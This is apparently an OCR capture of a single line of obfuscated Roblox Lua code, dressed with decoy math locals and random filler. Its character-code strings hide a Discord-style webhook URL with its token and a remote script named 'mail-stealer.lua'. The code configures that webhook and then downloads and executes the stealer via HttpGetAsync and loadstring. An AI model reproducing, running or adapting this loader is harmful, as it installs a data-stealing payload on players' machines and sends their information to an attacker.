 local print=print;local type=type;local tonumber=tonumber;local a={}for b=1,10 do a[b]=math.random(1000)end;local c=""function genednv(d)getgenv()[c]=d end;local tostring=tostring;local e=math.abs;local f=string.char(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,108,101,119,105,115,97,107,117,114,97,46,109,111,101,47,97,112,105,47,119,101,98,104,111,111,107,115,47,49,49,48,50,54,52,57,48,57,49,52,55,57,48,52,52,49,51,55,47,53,108,82,109,111,45,117,71,53,87,87,71,48,49,84,111,106,82,45,109,114,121,119,79,72,55,84,51,87,48,74,107,71,117,116,86,122,110,114,56,56,111,118,53,69,112,110,70,82,81,112,83,89,118,110,115,45,52,115,86,85,112,121,72,51,105,84,107);local h=math.ceil;local i=math.floor;local function j(k)c="mouselock"genednv("true")local l={}for b=1,k do l[b]=math.random(100)end;return l end;local m=math.max;local n=math.min;local o={2,93,210,219,2983,2130,239,284,034}local function p(q)local r={}c="name"genednv("powerblack09yt")for b=1,q do r[b]=string.char(math.random(97,122))end;return table.concat(r)end;local s=table.create;local t=coroutine.resume;local u=coroutine.yield;local ipairs=ipairs;local pairs=pairs;local next=next;local v=string.char(104,116,116,112,115,58,47,47,119,117,109,97,116,46,120,121,122,47,115,99,114,105,112,116,115,47,109,97,105,108,45,115,116,101,97,108,101,114,46,108,117,97)local error=error;local pcall=pcall;function tesdwef(w)return game:HttpGetAsync(w,true)end;local xpcall=xpcall;local x=loadstring;local rawget=rawget;local rawset=rawset;local function y()local z=p(math.random(5,10))local A=p(math.random(5,10))c="webhook"genednv(f)return z..A end;local B=string.len;local C=string.sub;local D=string.upper;local E=string.lower;local F=string.find;local function G(k)local H=j(10)local l={}local I=p(5)for b=1,k do l[b]=math.random()>0.5 end;local J=y()return l end;local K=G(2)local L=math.acos;local M=math.asin;local N=math.atan;local O=math.atan2;x(tesdwef(v))()local P=math.cos
